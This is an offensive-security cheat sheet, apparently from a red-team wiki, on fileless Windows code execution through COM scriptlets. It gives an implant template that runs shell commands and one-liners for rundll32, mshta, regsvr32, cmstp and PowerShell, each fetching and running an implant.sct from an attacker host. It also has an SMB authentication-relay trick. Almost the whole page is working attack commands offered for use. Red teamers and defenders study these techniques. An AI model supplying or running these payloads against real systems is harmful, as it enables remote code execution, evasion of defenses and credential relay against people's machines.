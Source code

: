 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - client-side-attacks
  - living-off-the-land
  - T1117
  - windows
credits:
  - bohops
---
```

# Scriptlet

Fileless scriptlet implant template.

```xml
<?XML version="1.0"?>
<scriptlet>
<registration 
    progid="Updater"
    classid="{10001111-0000-0000-0000-0000FEEDACDC}" >
    <script language="JScript">
        <![CDATA[
            var execute = new ActiveXObject("WScript.Shell").Run("<commands>");    
        ]]>
</script>
</registration>
</scriptlet>
```

## 01 - Command Prompt

### 1.1 - `rundll32.exe`

```
C:\> rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";o=GetObject("script:http[s]://<attacker_IP>/implant.sct");window.close();
```

### 1.2 - `mshta.exe`

```
C:\> mshta.exe javascript:execute=GetObject("script:http[s]://<attacker_IP>/implant.sct");execute.Exec();close();

C:\> mshta.exe vbscript:Close(Execute("GetObject(""script:http[s]://<attacker_IP>/implant.sct"")"))
```

### 1.3 - `regsvr32.exe`

Execute a SCT dropper implant.

```
C:\> regsvr32.exe /s /u /i:implant.sct scrobj.dll
```

Execute a fileless implant.

```
C:\> regsvr32.exe /s /u /i:http[s]://<IP>[:PORT]/implant.sct scrobj.dll

C:\> regsvr32.exe /s /u /i:\\<attacker_IP>\implant.sct scrobj.dll
```

Execute command to perform SMB authentication relay.

```
C:\> regsvr32.exe /s /u /i:\\<attacker_IP>\@snare scrobj.dll
```

### 1.4 - `cmstp.exe`

Fileless scriptlet implant template

```
[version]
Signature=$chicago$
AdvancedINF=2.5

[DefaultInstall_SingleUser]
UnRegisterOCXs=UnRegisterOCXSection

[UnRegisterOCXSection]
%11%\scrobj.dll,NI,http[s]://<IP>[:PORT]/implant.sct

[Strings]
AppAct = "SOFTWARE\Microsoft\Connection Manager"
ServiceName="Yay"
ShortSvcName="Yay"
```

Execute implant.

```
C:\> cmstp.exe /ni /s implant.inf
```

Execute fileless implant.

```
C:\> cmstp.exe /ni /s http[s]://<IP>[:PORT]/implant.inf
```

## 02 - PowerShell

```
PS C:\> [Reflection.Assembly]::LoadWithPartialName('Microsoft.JScript');[Microsoft.JScript.Eval]::JScriptEvaluate('GetObject("script:http[s]://<attacker_IP>/implant.sct").Exec()',[Microsoft.JScript.Vsa.VsaEngine]::CreateEngine())
```

Another PowerShell Assembly Reflection SCT Code Execution Example w/ 'Microsoft.VisualBasic.Interaction' -

```
PS C:\> [Reflection.Assembly]::LoadWithPartialName('Microsoft.VisualBasic');[Microsoft.VisualBasic.Interaction]::GetObject('script:http[s]://<attacker_IP>/implant.sct').Exec(0)
```

---
## References

### Backlinks

- [[DLL Execution]]

### LOLBAS

- [LOLBAS: Regsvr32](https://lolbas-project.github.io/lolbas/Binaries/Regsvr32/)

- [LOLBAS: cmstp](https://lolbas-project.github.io/lolbas/Binaries/Cmstp/)

### Hacktricks

- [Hacktricks: Windows Reverse Shells](https://book.hacktricks.wiki/en/generic-methodologies-and-resources/reverse-shells/windows.html)

### Red Team Notes

- [Red Team Notes: Code Execution - Regsvr32](https://www.ired.team/offensive-security/code-execution/t1117-regsvr32-aka-squiblydoo)

- [Red Team Notes: CMSTP](https://www.ired.team/offensive-security/code-execution/t1191-cmstp-code-execution)